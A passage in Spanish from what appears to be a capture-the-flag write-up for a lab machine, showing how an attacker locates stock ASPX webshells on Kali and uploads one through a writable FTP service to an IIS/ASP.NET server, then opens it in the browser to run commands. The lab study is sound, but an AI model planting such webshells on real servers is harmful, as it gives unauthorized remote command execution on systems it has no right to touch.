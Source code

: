 Se puede ver.

Sabiendo esto y que la máquina usa un **servidor IIS** y **ASP.NET**, podemos usar una **webshell** tipo **ASPX** que sirva como una **CMD**.

En kali ya tenemos una:
```bash
locate cmd.aspx
/usr/share/davtest/backdoors/aspx_cmd.aspx
/usr/share/seclists/Web-Shells/FuzzDB/cmd.aspx
```

Copiamos cualquiera de esos dos en tu directorio actual de trabajo y lo subimos al **FTP**:
```batch
ftp> put aspx_cmd.aspx
local: aspx_cmd.aspx remote: aspx_cmd.aspx
227 Entering Passive Mode (192,168,1,80).
125 Data connection already open; Transfer starting.
100% |*********************************************|  1438       47.28 MiB/s    --:-- ETA
226 Transfer complete.
1438 bytes sent in 00:00 (33.16 KiB/s)
ftp>
```

Y vayamos a la página web, especificando el archivo:

<p align="center">
<img src="/assets/images/THL-writeup-cocidoAndaluz/Captura4.png">
</p>

Ahí está, ya solo ejecuta un comando:

<p align="center">
<img src="/assets/images/THL-writeup-cocidoAndaluz/Captura5.png">
</p>
